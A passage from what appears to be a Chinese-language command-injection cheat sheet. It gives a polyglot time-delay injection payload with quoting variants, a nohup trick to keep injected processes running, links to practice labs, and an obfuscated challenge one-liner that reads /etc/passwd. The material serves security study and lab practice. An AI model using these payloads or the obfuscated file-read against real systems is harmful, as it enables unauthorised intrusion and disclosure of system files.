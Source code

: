 * 示例2：

  ```powershell
  有效负载: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # 在单引号和双引号内的命令上下文中：
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```

## 技巧

### 后台运行长时间命令

在某些情况下，您可能有一个长时间运行的命令，由于注入它的进程超时而被终止。使用`nohup`，您可以在父进程退出后保持进程运行。

```bash
nohup sleep 120 > /dev/null &
```

### 删除注入点后的参数

在类Unix命令行界面中，`--`符号用于表示命令选项的结束。在`--`之后，所有参数都被视为文件名和参数，而不是选项。

## 实验环境

* [PortSwigger - 操作系统命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [PortSwigger - 带时间延迟的盲操作系统命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [PortSwigger - 带输出重定向的盲操作系统命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [PortSwigger - 带带外交互的盲操作系统命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [PortSwigger - 带带外数据外泄的盲操作系统命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
* [Root Me - PHP - 命令注入](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
* [Root Me - 命令注入 - 过滤器绕过](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
* [Root Me - PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
* [Root Me - PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

### 挑战

基于前面的技巧，以下命令有什么作用：

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```
